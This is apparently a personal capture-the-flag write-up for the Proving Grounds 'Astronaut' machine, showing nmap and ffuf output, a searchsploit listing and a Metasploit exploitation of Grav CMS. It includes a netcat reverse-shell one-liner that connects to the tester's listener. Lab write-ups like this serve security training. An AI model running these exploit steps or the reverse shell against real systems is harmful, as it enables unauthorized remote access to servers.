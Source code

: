 ```yaml
---
date: '2024-09-28'
before : '2024-09-23'
after : '2024-10-04'
title: 'Proving Grounds : Astronaut'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving Astronaut machine from Proving Grounds'
thumbnail: '../contentImages/astronaut/1.png'
---
```


## 1. Recon

Starting with normal nmap scan
```

┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.216.12 -p- -T4
[sudo] password for hosan:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-14 13:00 EDT
Nmap scan report for 192.168.216.12
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 16.78 seconds

```
Nothing speical, only http service.
Analysing port 80 (http)
```

┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.216.12 -p80 -sC -sV -A
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-14 13:01 EDT
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 192.168.216.12
Host is up (0.027s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-title: Index of /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.18 (87%), Linux 4.15 - 5.8 (87%), Linux 5.0 - 5.4 (87%), Linux 2.6.32 (87%), Linux 2.6.32 or 3.10 (87%), Linux 2.6.39 (87%), Linux 3.10 - 3.12 (87%), Linux 3.7 (87%), Linux 4.4 (87%), Synology DiskStation Manager 5.1 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: 127.0.0.1

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   26.28 ms 192.168.45.1
2   26.00 ms 192.168.45.254
3   26.39 ms 192.168.251.1
4   26.54 ms 192.168.216.12

```
Okay. Nothing special either.

## 2. Enumeration / Initial Foothold.

Visited `http://HOST_IP/grav-admin`:

![image](../contentImages/astronaut/1.png)

Hmm Grav. I've never heard of it.

- robots.txt
![image](../contentImages/astronaut/4.png)

Since no DNS services or hostname provided, subdomain/vhost enumeration is not possible.
While enumerating the subdirectories, quick search for CVE:

```

┌──(hosan㉿kali)-[~]
└─$ searchsploit grav
BitDefender GravityZone 5.1.5.386 - Multiple Vulnerabilities                                                                                                                                              | linux/webapps/34086.txt
Cobian Backup 11 Gravity 11.2.0.582 - 'Password' Denial of Service (PoC)                                                                                                                                  | windows/local/50790.py
Cobian Backup Gravity 11.2.0.582 - 'CobianBackup11' Unquoted Service Path                                                                                                                                 | windows/local/50791.txt
Grav CMS 1.4.2 Admin Plugin - Cross-Site Scripting                                                                                                                                                        | php/webapps/42131.txt
Grav CMS 1.6.30 Admin Plugin 1.9.18 - 'Page Title' Persistent Cross-Site Scripting                                                                                                                        | php/webapps/49264.txt
Grav CMS 1.7.10 - Server-Side Template Injection (SSTI) (Authenticated)                                                                                                                                   | php/webapps/49961.py
GravCMS 1.10.7 - Arbitrary YAML Write/Update (Unauthenticated) (2)                                                                                                                                        | php/webapps/49973.py
GravCMS 1.10.7 - Unauthenticated Arbitrary File Write (Metasploit)                                                                                                                                        | php/webapps/49788.rb
```
So there is a metasploit module, always worth trying it.

I basically tuned some options for exploit to fit our target, but it dropped a shell.
```

msf6 exploit(linux/http/gravcms_exec) > set RHOSTS 192.168.216.12
RHOSTS => 192.168.216.12
msf6 exploit(linux/http/gravcms_exec) > set LHOST 192.168.45.154
LHOST => 192.168.45.154
msf6 exploit(linux/http/gravcms_exec) > set LPORT 80
LPORT => 80
msf6 exploit(linux/http/gravcms_exec) > set TARGETURI /grav-admin
TARGETURI => /grav-admin
msf6 exploit(linux/http/gravcms_exec) > exploit

[*] Started reverse TCP handler on 192.168.45.154:80
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Sending request to the admin path to generate cookie and token
[+] Cookie and CSRF token successfully extracted !
[*] Implanting payload via scheduler feature
[+] Scheduler successfully created ! Wait up to 93 seconds
[*] Sending stage (39927 bytes) to 192.168.216.12
[*] Cleaning up the scheduler...
[+] The scheduler config successfully cleaned up!
[*] Meterpreter session 1 opened (192.168.45.154:80 -> 192.168.216.12:51198) at 2024-09-14 13:14:03 -0400

meterpreter > shell
Process 55058 created.
Channel 0 created.
whoami
www-data
```
And the subdirectory enumeration didn't give me anything meaningful:

```

┌──(hosan㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://192.168.216.12/grav-admin/FUZZ -e .txt
________________________________________________

images                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 103ms]
cache                   [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 106ms]
tmp                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 31ms]
login.txt               [Status: 200, Size: 13967, Words: 3067, Lines: 190, Duration: 497ms]
login                   [Status: 200, Size: 13967, Words: 3067, Lines: 190, Duration: 495ms]
admin.txt               [Status: 403, Size: 0, Words: 1, Lines: 1, Duration: 554ms]
bin                     [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 68ms]
user                    [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 77ms]
admin                   [Status: 200, Size: 15508, Words: 4330, Lines: 139, Duration: 852ms]
logs                    [Status: 301, Size: 326, Words: 20, Lines: 10, Duration: 92ms]
backup                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 76ms]
home.txt                [Status: 200, Size: 14014, Words: 2089, Lines: 160, Duration: 288ms]
home                    [Status: 200, Size: 14014, Words: 2089, Lines: 160, Duration: 313ms]
assets                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 77ms]
.xml                    [Status: 200, Size: 14014, Words: 2089, Lines: 160, Duration: 258ms]
system                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 58ms]
forgot_password         [Status: 200, Size: 12383, Words: 2246, Lines: 155, Duration: 341ms]
forgot_password.txt     [Status: 200, Size: 12383, Words: 2246, Lines: 155, Duration: 344ms]
.rss                    [Status: 200, Size: 14014, Words: 2089, Lines: 160, Duration: 311ms]
vendor                  [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 66ms]
user_profile            [Status: 200, Size: 13974, Words: 3067, Lines: 190, Duration: 387ms]
activate_user           [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 308ms]
activate_user.txt       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 312ms]

```

Since this shell is instable as hell, I quickly created a revshell with:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.241 443 >/tmp/f
```

## 3. PrivEsc

I found that sudo version is 1.8.31.
The first things I do during privesc is: sudo -l, kernel exploit, sudo exploit and suid, sgid binaries.

Next thing:

![image](../contentImages/astronaut/5.png)

And we got:

![image](../contentImages/astronaut/6.png)

So maybe:

![image](../contentImages/astronaut/7.png)

Done

New things learned: look into suid binaries and gtfobins more carefully, what does "it doesn't drop the privielged shell" means? Does it mean that the binary is completely useless?

- hint : think about SUID context.

---
## Source

- Proving Grounds
- Me!
